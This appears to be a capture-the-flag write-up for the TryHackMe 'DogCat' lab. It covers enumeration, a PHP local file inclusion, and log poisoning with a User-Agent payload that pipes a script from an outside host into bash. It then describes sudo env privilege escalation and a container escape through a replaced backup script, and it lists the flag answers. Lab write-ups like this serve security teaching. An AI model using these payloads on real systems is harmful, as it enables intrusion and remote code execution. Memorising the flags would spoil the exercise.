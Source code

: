 # DogCat

## Solution

Starting it as usual, with an nmap script !
```bash
cmd: sudo nmap -sC -sV -p- --min-rate 10000 -oN nmap/all $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Poking around the webserver did not produce any interesting resources, lets enumerate further
```bash
cmd: gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/big.txt -x php,txt,html

/.hta                 (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/.hta.html            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/cats                 (Status: 301) [Size: 313] [--> http://10.10.108.101/cats/]
/cat.php              (Status: 200) [Size: 26]
/flag.php             (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 418]
/index.php            (Status: 200) [Size: 418]
/server-status        (Status: 403) [Size: 278]
```

Visiting:
- /cats 	-> 301
- / 		-> can select cat/dog -> translates to /?view=cat
- /flag.php	-> renders = empty

The initial idea was to **/?view=flag** but it might be checking the presence of cat/dog in the query because it gives **"Only cats or dogs are allowed"**

We can carve more information from it:
- installation path -> /var/www/html/index.php
- It needs dog or cat in the file (?view=index.php ... ?view=index.php%00cats)
- Including index.php will generate an error for redeclaration (IT IS WORKING)
- Flag.php still returns empty (what is passed to include() is interpreted, duh)

Lets try some filters !! 
```bash
Request 1: http://$IP/?view=pHp://FilTer/convert.base64-encode/resource=./cat/../index.php%00 # Does not work
Request 2: http://$IP/?view=pHp://FilTer/convert.base64-encode/resource=./cat/../index # WORKS 

# Note: the result is included in the repo under the folder "files"
```

Analyzing this small index's snippet we can see several things
```php
if isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
	    if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
			echo 'Here you go!';
			include $_GET['view'] . $ext;

```

With this, we can load any file just by proiding an empty **ext**ension. Lets get the flag though with both tricks :D

```php
// cmd: curl -X GET "http://$IP/?ext=&view=pHp://FilTer/convert.base64-encode/resource=./dogs/../flag.php"

// Response's content: PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo=

// Decoded response
<?php
$flag_1 = THM{Th1s_1s_N0t_4_Catdog_ab67edfa}
?>
```

**Flag 1:** ```THM{Th1s_1s_N0t_4_Catdog_ab67edfa}```

Next step is to achieve RCE. At this point i got a bit lost although i had the correct idea: Tamper with some file and evaluate it with the include 

I then found out that **apache logs** include the user-agent header in them so, with this, we can inject php code via the header and execute the log by including it with the LFI found. 

```bash
# Injecting the header
cmd: curl -X GET "http://$IP/?ext=&view=./dogs/../flag.php" -H "User-Agent: Mozilla <?php system('curl http://10.9.128.84/shell.sh | bash'); ?> Gecko"

# Trigger RCE
cmd: curl -X GET "http://$IP/?ext=&view=./dogs/../../../../../var/log/apache2/access.log"

# Reverse shell listener
cmd: whoami && id

www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Lets check the system around

```bash
# getting the second flag
cmd: ls -la

drwxr-xr-x 1 root     root     4096 Mar 10  2020 .
drwxr-xr-x 1 root     root     4096 Feb 26  2020 ..
-rw-r--r-- 1 root     root       23 Mar 10  2020 flag2_QMW7JvaY2LvK.txt
drwxrwxrwx 4 www-data www-data 4096 Jul 30 10:21 html

cmd: cat flag2_QMW7JvaY2LvK.txt

THM{LF1_t0_RC3_aec3fb}
```

**Flag 2:** ```THM{LF1_t0_RC3_aec3fb}```

By enumerating the system manually, i found a folder containing a **shell script** and a **tar compressed file** at **/opt/backups**

```bash
cmd: cat backup.sh

#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

So it seems that this is being executed from outside of the container (because of how the destination path is declared)

By decompressing the **.tar** file, it extracted a folder named **root** containing another folder named **container**. It contained some spicy things
```bash
cmd: ls -la

drwxr-xr-x 5 www-data www-data 4096 Mar 10  2020 .
drwxr-xr-x 3 www-data www-data 4096 Jul 30 10:54 ..
drwxr-xr-x 8 www-data www-data 4096 Mar  6  2020 .git
-rw-r--r-- 1 www-data www-data  733 Mar 10  2020 Dockerfile # <-- file to build the docker image, contains flag
drwxr-xr-x 2 www-data www-data 4096 Apr  8  2020 backup 	# <-- /opt/backup
-rwxr-xr-x 1 www-data www-data   83 Mar 10  2020 launch.sh	
drwxr-xr-x 4 www-data www-data 4096 Mar 10  2020 src		# <-- /var/www/html 

cmd: cat DockerFile

# -- snip -- 

# Set up escalation
RUN chmod +s `which env`
RUN apt-get update && apt-get install sudo -y
RUN echo "www-data ALL = NOPASSWD: `which env`" >> /etc/sudoers# Set up escalation
RUN chmod +s `which env`
RUN apt-get update && apt-get install sudo -y
RUN echo "www-data ALL = NOPASSWD: `which env`" >> /etc/sudoers

# -- snip --

RUN echo "THM{D1ff3r3nt_3nv1ronments_874112}" > /root/flag3.txt

# -- snip --

```

**Flag 3:** ```THM{D1ff3r3nt_3nv1ronments_874112}```

We got the third flag as well as the method to escalate to root !! with GTFOBins help, we can do the following as **www-data**
```bash
# cmd: sudo env /bin/bash
# cmd: whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

Well, now we need to escape the container but it does not have any indication that it is the common method of exploitation (by mounting the host file system)... Lets try to modify the shell script seen before and see if the host has scheduling jobs to execute it

I just replaced the shell script contents with a reverse shell and voila
```bash
cmd: cat ~/flag4.txt

THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```

**Flag 4:** ```THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}```

